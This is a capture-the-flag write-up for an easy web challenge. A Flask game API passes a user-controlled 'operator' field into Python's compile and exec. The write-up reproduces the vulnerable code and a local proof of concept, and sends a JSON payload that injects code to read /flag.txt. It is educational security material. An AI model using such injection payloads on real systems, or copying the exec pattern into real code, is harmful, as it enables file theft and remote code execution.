





# [Hack The Boo](index.md) - Web - Evaluation Deck
**Difficulty:** Easy

> A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?

We are provided a zip file with source code to a python web application, and the ability to start a Docker container with the "live" challenge running.



The web application is a game, where the player chooses a face-down card to flip over. The card has a value, and that value is used to attack an enemy. Some cards heal the enemy, some damage it. The player has 8 card flips to defeat the enemy.

When the player clicks a card to flip it over, an HTTP POST is made to the API to calculate the enemy health remaining. We can see this in Firefox developer tools.






We can utilize the developer tools in Firefox to edit and re-send a request.



We can see the the request is fairly straightforward json - the attack amount, current health, and an operator is provided.

It's fairly easy to adjust these values in order to win.




Unfortunately this challenge is not as simple as cheating the game, so we'll need to look at the python code.

The code that handles the health calculation is as follows:

```python
@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')

    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

The following lines of code look a bit dangerous:

```python
code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
exec(code, result)
return response(result.get('result'))
```

The `current_health` and `attack_power` values are parsed as integers, but the `operator` value is not. We can probably pass something malicious as the operator.

At this point, I spent some time reading how `compile` and `exec` work, and how they might be vulnerable. `compile` will accept arbitrary python code, so if we can set the operator value to a block of python code that retrieves the flag, it should return it to us via the API.

The `return` statement specifically grabs the `result` variable, so we need to overwrite this variable with the contents of the flag.

In the `Dockerfile` provided with the code, we can tell that the flag is located at `/flag.txt`.

```dockerfile
# Copy flag
COPY flag.txt /flag.txt
```

Some trial and error resulted in the following python code, based on the code provided, that would retrieve the flag:

```python
result = {}
code = compile(f'result = 25 ; result = open(\"../../../flag.txt\").read(); 75', '<string>', 'exec')
exec(code, result)
print((result.get('result')))
```
The numeric values are placeholders for the `current_health` and `attack_power` variables, which are not important, but need to exist.

So, if we send the following HTTP POST to the API, we should get the flag:

```json
{"current_health":"0","attack_power":"0","operator":"; result = open(\"/flag.txt\").read() ;"}
```
The numeric values do not matter.

The response from the API includes the flag:

```json
{"message":"HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}"}
```
